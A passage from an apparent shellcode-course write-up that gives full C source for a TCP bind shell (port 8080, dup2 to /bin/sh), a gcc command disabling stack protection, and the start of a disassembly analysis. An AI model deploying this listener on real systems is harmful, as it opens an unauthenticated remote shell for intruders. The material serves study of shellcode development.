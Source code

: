 We will choose this last option.  
  
Here is our C source code:  
```c
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
 
int main(void)
{
        int clientfd, sockfd;
        int dstport = 8080;
        struct sockaddr_in mysockaddr;
 
        sockfd = socket(AF_INET, SOCK_STREAM, 0);
 
        mysockaddr.sin_family = AF_INET; //2
        mysockaddr.sin_port = htons(dstport); //8080
        mysockaddr.sin_addr.s_addr = INADDR_ANY; //0
 
        bind(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));
 
        listen(sockfd, 0);
 
        clientfd = accept(sockfd, NULL, NULL);
 
        dup2(clientfd, 0);
        dup2(clientfd, 1);
        dup2(clientfd, 2);
 
        execve("/bin/sh", NULL, NULL);
        return 0;
}
```  
  
Let's test it:  
```bash
gcc -fno-stack-protector -z execstack -ggdb -o shell-bind-tcp shell-bind-tcp.c
./shell-bind-tcp


```  
  
From another shell:  
![image1]({{ site.url }}/public/images/slae/assignment1/image1.png)  

The ```objdump -d ./shell-bind-tcp -M intel``` produces a huge amount of assembly code.  
Something good to notice is that our ELF has been dynamically linked:  
![image3]({{ site.url }}/public/images/slae/assignment1/image3.png)  
  
The ELF is using the .plt and .got sections in order to dynamically address the interesting functions.  
These functions are LIBC functions:  
![image2]({{ site.url }}/public/images/slae/assignment1/image2.png)  
  